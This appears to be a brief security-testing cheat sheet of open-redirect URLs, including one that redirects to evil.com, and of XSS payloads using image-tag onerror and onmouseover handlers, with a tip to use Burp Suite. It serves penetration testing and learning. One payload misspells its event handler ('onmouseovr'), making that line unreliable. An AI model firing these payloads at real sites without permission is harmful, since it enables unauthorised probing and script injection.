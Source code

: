 # Open redirect

- __`https://test.com/?redirect=https://www.google.com`__
- __`https://test.com/?redirect=https://www.google.com@evil.com`__


# Cross-Site Scripting (XSS)

- __`"><image src=x onerror=alert()>`__
- __`"><image src=x onmouseover=alert()>`__
- __`"><image src=x onmouseovr=document.write(1)>`__
- > __If you are not getting /?name=test123 in url you can use burpsuite__
  - ![image1](https://github.com/Chittu13/All_in_one/blob/main/image/image1.png)

